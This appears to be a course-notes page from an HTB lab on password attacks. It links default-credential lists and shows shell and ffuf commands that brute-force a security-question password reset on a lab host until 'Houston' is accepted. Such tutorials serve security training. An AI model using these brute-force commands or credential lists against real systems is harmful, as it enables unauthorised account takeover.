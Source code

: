 # 👩‍🦰 Password Attacks

## Default Credentials

Many web applications are set up with default credentials to allow accessing it after installation. However, these credentials need to be changed after the initial setup of the web application

Here are lists of default credentials for a wide variety of web applications: [CIRT.net](https://www.cirt.net/passwords) also [SecLists Default Credentials](https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials) as well as the [SCADA](https://github.com/scadastrangelove/SCADAPASS/tree/master) GitHub

let's imagine the following web app:

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

We can spot it's a bookstack web app, we can then go and see if we can't find some default creds online ->

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

## Vulnerable Password Reset

### Guessable Password Reset

We could imagine questions like the following:

* "`What is your mother's maiden name?`"
* "`What city were you born in?`"

Then it's on us to chase for the good wordlist such as [this](https://github.com/datasets/world-cities/blob/master/data/world-cities.csv) CSV file contains a list of more than 25,000 cities with more than 15,000 inhabitants from all over the world.

```shell-session
cat world-cities.csv | cut -d ',' -f1 > city_wordlist.txt
wc -l city_wordlist.txt 
```

so let's imagine after entering our username wer got asked a question, it would look like this:

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

and now it's on us to craft a payload:

```shell-session
ElFelixi0@htb[/htb]$ ffuf -w ./city_wordlist.txt -u http://pwreset.htb/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=39b54j201u3rhu4tab1pvdb4pv" -d "security_response=FUZZ" -fr "Incorrect response."

<SNIP>

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 0ms]
    * FUZZ: Houston
```

and then we can reset password
